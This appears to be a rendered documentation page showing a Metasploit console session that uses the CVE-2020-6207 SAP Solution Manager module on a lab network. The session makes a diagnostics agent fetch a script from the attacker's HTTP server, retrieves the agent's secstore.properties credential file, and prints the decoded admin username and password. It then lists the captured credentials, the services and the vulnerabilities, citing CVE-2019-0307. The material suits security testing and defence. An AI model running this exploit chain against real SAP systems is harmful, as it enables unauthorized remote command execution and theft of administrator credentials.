 ```
AGENT => test_linux
msf6 auxiliary(admin/sap/cve_2020_6207_solman_rce) > set SRVHOST 192.168.50.3
SRVHOST => 192.168.50.3
msf6 auxiliary(admin/sap/cve_2020_6207_solman_rce) > run
[*] Running module against 172.16.30.46

[*] Enable EEM on agent: test_linux
[*] Using URL: http://192.168.50.3:8000/ginMlA2izrNi
[*] Start script: ginMlA2izrNi with payload for retrieving SolMan credentials file from agent: test_linux
[*] Received HTTP request from agent test_linux - 172.16.30.14
[+] Successfully retrieved file /usr/sap/DAA/SMDA98/SMDAgent/configuration/secstore.properties from agent: test_linux saved in: /Users/vladimir/.msf4/loot/20210327204344_SAP_TEST_172.16.30.14_smdagent.secstor_025841.txt
[+] Successfully encoded credentials for SolMan server: 172.16.30.46:50000 from agent: test_linux - 172.16.30.14
[+] SMD Username: j2ee_admin
[+] SMD Password: asdQWE123
[*] Stop script: ginMlA2izrNi on agent: test_linux
[*] Delete script: ginMlA2izrNi on agent: test_linux
[*] Server stopped.
[*] Auxiliary module execution completed
msf6 auxiliary(admin/sap/cve_2020_6207_solman_rce) > creds
Credentials
===========

host          origin        service           public      private    realm  private_type  JtR Format
----          ------        -------           ------      -------    -----  ------------  ----------
172.16.30.46  172.16.30.46  50000/tcp (soap)  j2ee_admin  asdQWE123         Password

msf6 auxiliary(admin/sap/cve_2020_6207_solman_rce) > services
Services
========

host          port   proto  name  state  info
----          ----   -----  ----  -----  ----
172.16.30.46  50000  tcp    soap  open   SAP Solution Manager

msf6 auxiliary(admin/sap/cve_2020_6207_solman_rce) > vulns

Vulnerabilities
===============

Timestamp                Host          Name                                                                                               References
---------                ----          ----                                                                                               ----------
2021-03-27 17:49:37 UTC  172.16.30.46  SAP Solution Manager remote unauthorized OS commands execution                                     CVE-2020-6207,URL-https://i.blackhat.com/USA-20/Wednesday/us-20-Artuso-An-Unauthenticated-Journey-To-Root-Pwning-Your-Companys-Enterprise-Software-Servers-wp.pdf,URL-https://github.com/chipik/SAP_EEM_CVE-2020-6207
2021-03-27 17:49:41 UTC  172.16.30.14  Diagnostics Agent in Solution Manager, stores unencrypted credentials for Solution Manager server  CVE-2019-0307,URL-https://conference.hitb.org/hitblockdown002/materials/D2T1%20-%20SAP%20RCE%20-%20The%20Agent%20Who%20Spoke%20Too%20Much%20-%20Yvan%20Genuer.pdf

msf6 auxiliary(admin/sap/cve_2020_6207_solman_rce) > loot

Loot
====

```

[1]: https://conference.hitb.org/hitblockdown002/materials/D2T1%20-%20SAP%20RCE%20-%20The%20Agent%20Who%20Spoke%20Too%20Much%20-%20Yvan%20Genuer.pdf
[2]: https://i.blackhat.com/USA-20/Wednesday/us-20-Artuso-An-Unauthenticated-Journey-To-Root-Pwning-Your-Companys-Enterprise-Software-Servers-wp.pdf
[3]: https://blogs.sap.com/2016/02/16/solution-manager-72-installation-and-configuration-i-installations/